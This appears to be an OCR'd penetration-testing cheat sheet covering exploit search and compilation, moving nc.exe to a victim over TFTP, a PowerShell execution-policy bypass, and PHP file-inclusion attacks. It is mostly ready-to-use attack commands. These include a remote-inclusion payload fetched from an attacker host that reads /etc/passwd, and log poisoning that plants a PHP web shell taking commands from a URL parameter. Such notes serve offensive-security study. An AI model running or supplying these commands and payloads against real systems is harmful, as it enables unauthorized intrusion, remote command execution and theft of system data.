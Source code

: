 Finding Public Exploits:  
`www.securityfocus.com/vulnerabilities  
www.exploit-db.com`

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

**Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe #Run Windows executable on Linux`

Convert Python Exploit to Win Exe  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

**File Transfers**  
TFTP  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

PS File Transfer  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

**Web Application Attacks**  
LFI/RFI #usually in poor php code .  
RFI  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

LFI   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`
